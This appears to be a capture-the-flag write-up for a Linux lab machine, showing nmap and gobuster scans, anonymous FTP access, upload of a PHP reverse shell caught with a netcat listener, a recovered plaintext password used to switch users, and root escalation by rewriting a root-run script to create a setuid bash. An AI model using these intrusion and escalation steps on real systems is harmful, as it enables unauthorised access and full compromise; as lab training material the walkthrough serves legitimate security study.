








## NMAP
```
$ nmap -p- 10.10.4.55                    
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-07 19:12 EDT
Nmap scan report for 10.10.4.55
Host is up (0.057s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 76.97 seconds
```
```
$ nmap -sCV -p 21,22,80 10.10.4.55               
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-07 19:14 EDT
Nmap scan report for 10.10.4.55
Host is up (0.052s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.18.22.237
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
|_  256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Maintenance
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.56 seconds
```

It's a linux machine with 3 open tcp ports.

## FTP Anonymous Login
```
$ ftp 10.10.4.55        
Connected to 10.10.4.55.
220 (vsFTPd 3.0.3)
Name (10.10.4.55:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||36212|)
150 Here comes the directory listing.
drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
226 Directory send OK.
ftp> 

```

Looking at the files, someone is leaving amongus memes in the drives. Maya is sus. 

We got a username called Maya, may be used for something


## HTTP
```
$ gobuster dir -u http://10.10.4.55 -w /usr/share/wordlists/dirb/big.txt   
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.4.55
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 275]
/.htpasswd            (Status: 403) [Size: 275]
/files                (Status: 301) [Size: 308] [--> http://10.10.4.55/files/]
/server-status        (Status: 403) [Size: 275]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
```




## Reverse shell

Using the ftp server to upload a reverse shell

Trying a PHP reverse shell.

```
ftp> pwd
Remote directory: /ftp
ftp> put /home/kali/Downloads/php-reverse-shell.php rce.php
local: /home/kali/Downloads/php-reverse-shell.php remote: rce.php
229 Entering Extended Passive Mode (|||44678|)
150 Ok to send data.
100% |************************************|  5494        2.45 MiB/s    00:00 ETA
226 Transfer complete.
5494 bytes sent in 00:00 (9.93 KiB/s)
ftp> 
```




### Secret ingridient

```
$ cat recipe.txt
Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was love.
```


### We also find a suspicious file

```
$ cd incidents
$ ls
suspicious.pcapng
```

I used a python3 server to get this file out of the machine



Ok so this is just a packet log of somethings they found suspicious on the machine.




He also tried to run sudo but he used the wrong password







**c4ntg3t3n0ughsp1c3.**

Before trying this let's upgrade this shell.

```
$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.18.22.237] from (UNKNOWN) [10.10.239.85] 47416
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 14:31:10 up 52 min,  0 users,  load average: 0.02, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@startup:/$ cd /home
cd /home
www-data@startup:/home$ ls
ls
lennie
www-data@startup:/home$ 
```


```

www-data@startup:/home$ ls
ls
lennie
www-data@startup:/home$ su lennie
su lennie
Password: c4ntg3t3n0ughsp1c3

lennie@startup:/home$ 

```

### Files in lennies folder
```
lennie@startup:~$ ls
ls
Documents  scripts  user.txt
```
```
lennie@startup:~/scripts$ ls -l planner.sh
ls -l planner.sh
-rwxr-xr-x 1 root root 77 Nov 12  2020 planner.sh
```
We can run planner.sh as root. We cannot write on it however.
```
cat planner.sh
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```

```
ls -l /etc/print.sh
-rwx------ 1 lennie lennie 25 Nov 12  2020 /etc/print.sh
```

### Change the print.sh file

```
/home$ cat /etc/print.sh
cat /etc/print.sh
#!/bin/bash
cp /bin/bash /tmp/bash
chmod +xs /tmp/bash
```


```
lennie@startup:~/scripts$ ls -l /tmp/bash
-rwsr-sr-x 1 root root 1037528 Oct  8 15:17 /tmp/bash
lennie@startup:~/scripts$ /tmp/bash -p
bash-4.3# whoami
whoami
root
```